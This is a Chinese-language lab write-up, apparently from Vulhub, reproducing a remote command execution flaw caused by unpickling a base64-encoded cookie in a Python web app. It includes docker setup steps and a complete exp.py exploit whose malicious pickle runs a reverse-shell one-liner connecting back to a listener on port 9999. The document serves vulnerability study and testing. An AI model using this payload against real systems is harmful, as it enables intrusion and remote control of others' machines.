

# Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考阅读：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub 编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-ip:8000`，显示 `Hello {username}!`。

## 漏洞复现

username 是取 Cookie 变量 user，对其进行 base64 解码 + 反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用 exp.py，监听 9999 端口，反弹 shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```


